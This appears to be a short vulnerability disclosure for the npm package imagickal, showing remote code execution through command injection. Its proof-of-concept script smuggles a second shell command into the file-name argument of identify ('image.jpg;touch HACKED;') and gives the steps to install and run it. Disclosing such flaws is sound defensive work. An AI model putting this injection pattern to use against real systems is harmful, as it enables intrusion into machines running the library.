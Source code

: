 # Description

Remote Code Execution (RCE) in imagickal

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var im = require('imagickal');

im.identify('image.jpg;touch HACKED;').then(function (data) {
  console.log(data);
});
```

2. Execute the following commands in terminal:

```
npm i imagickal # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
